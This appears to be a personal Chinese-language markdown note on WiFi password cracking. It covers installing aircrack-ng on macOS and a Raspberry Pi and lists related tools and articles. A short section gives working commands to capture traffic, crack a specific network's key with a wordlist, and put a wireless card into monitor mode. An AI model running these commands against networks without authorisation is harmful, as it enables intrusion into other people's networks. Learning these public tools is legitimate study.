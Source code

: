 ```yaml
---
title:  wifi-crack
heading: 
date: 2021-11-23T13:37:23.761Z
categories: ["other"]
tags: 
description: 
---
```


关于破解的方法和思路参考[渗透测试之构建高效WiFi破解字典](https://www.anquanke.com/post/id/219315)

常见工具：  

- [bully](https://www.kali.org/tools/bully/)
- [reaver](https://www.kali.org/tools/reaver/)
- [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)


## mac 上安装 aircrack-ng

参考程[aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)教安装
``` 
brew install autoconf automake libtool openssl shtool pkg-config hwloc pcre sqlite3 libpcap cmocka
```
下载[aircrack-ng.tar.gz](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)

解压后安装
```bash
 cd aircrack-ng-1.6
 autoreconf -i
 ./configure --with-experimental
 gmake
 gmake install
 ldconfig
```


```
airport -s
sudo rm -rf /tmp/airport*
sudo airport en0 sniff 3
ls -lh /tmp/airport*
aircrack-ng -w top100.txt -M 100 -f 80 -1 -a 2 -b 0c:5c:b5:c8:04:eb /tmp/airportSniff*.cap
```



## 树莓派上安装 aircrack-ng

mac shell ssh 连接树莓派[中文乱码](https://monsoir.github.io/Notes/RaspberryPie/raspberry-ssh-locale.html)

查看配置
···
```bash
locale
# 输出
locale: Cannot set LC_CTYPE to default locale: No such file or directory
locale: Cannot set LC_MESSAGES to default locale: No such file or directory
locale: Cannot set LC_ALL to default locale: No such file or directory

```


修改配置
```bash
grep "^[^#]" /etc/ssh/sshd_config
sudo vi /etc/ssh/sshd_config
# 注释掉以下行
# AcceptEnv LANG LC_*
systemctl restart sshd
echo "export LC_ALL=en_US.UTF-8" >> /etc/.bash_profile
echo "export LANG=en_US.UTF-8" >> /etc/.bash_profile

grep "^[^#]" /etc/locale.gen
# 注释以下行
# en_US.UTF-8 UTF-8
sudo locale-gen
# 查看是否正常
locale
```

安装依赖
```bash
sudo apt-get update
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion ethtool
sudo apt-get install -y libnl-3-200 libnl-3-dev libnl-genl-3-dev libnl-genl-3-200
```

通过编译的方式[安装](https://www.aircrack-ng.org/doku.php?id=install_aircrack#compiling_and_installing) 
```bash
wget https://download.aircrack-ng.org/aircrack-ng-1.6.tar.gz
tar -zxvf aircrack-ng-1.6.tar.gz
cd aircrack-ng-1.6
autoreconf -i
./configure --with-experimental
make
make install
ldconfig
```

使用Aircrack-ng工具，依次输入以下命令  

```bash
# 杀死占用网卡的进程  
# 如果为空则证明没占用，有进程则需要手动关闭
1.airmon-ng check kill  
查看无线网卡状态
2.ifconfig/iwconfig -a
加载无线网卡，已加载则忽略
3.ifconfig wlan0 up
激活网卡
4.airmon-ng start wlan0
探测无线网络
5.airodump-ng mon0
```

无法关闭 avahi-daemon
```
# 提示
# stopping avahi-daemon.service but it can still be activated by
# 移出
apt-get remove avahi-daemon
```



参考  
- [WiFi 安全与攻击案例分析](https://paper.seebug.org/1159/)
- [cracking-wifi-at-scale-with-one-simple-trick](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
- [wifi-attack-tools](https://linuxhint.com/wireless-attack-tools-kali-linux/)
- [wifi密码破解方法记录](https://www.jianshu.com/p/44d54b5369d8)
- [Mac上使用aircrack-ng破解Wi-Fi密码](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)
- [近源渗透，超低成本打造自定义专属钓鱼WIFI](https://www.freebuf.com/articles/wireless/272733.html)
- [无线局域网攻防之Wi-Fi破解](https://www.freebuf.com/articles/wireless/280568.html)
- [知道创宇研发技能表v3](https://blog.knownsec.com/Knownsec_RD_Checklist/index.html)